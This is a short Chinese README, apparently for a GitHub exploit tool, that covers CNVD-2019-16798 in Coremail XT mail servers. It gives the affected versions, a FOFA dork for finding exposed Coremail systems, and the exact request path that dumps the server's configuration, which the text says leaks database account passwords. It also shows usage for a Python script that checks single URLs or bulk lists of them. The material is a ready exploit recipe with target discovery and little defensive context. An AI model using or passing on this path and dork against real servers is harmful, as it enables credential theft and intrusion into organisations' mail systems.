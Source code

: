 # 漏洞编号
CNVD-2019-16798
# 影响范围：
Coremail XT 3.0.1-XT 5.0.9
# FOFa dork：
app="Coremail邮件系统"
# 漏洞复现：
登录页面:  
![image](images/login.png)   
漏洞地址：/mailsms/s?func=ADMIN:appState&dumpConfig=/   
直接访问漏洞地址即可获取泄露的数据库账号密码  
![image](images/sql.png)   
脚本使用方法：  
python3 CNVD-2019-16798 [-u url] [-f  Url.txt]  
如果使用-f参数脚本会将检查结果保存在当前目录下生成result.txt中  
![image](images/script.png)   





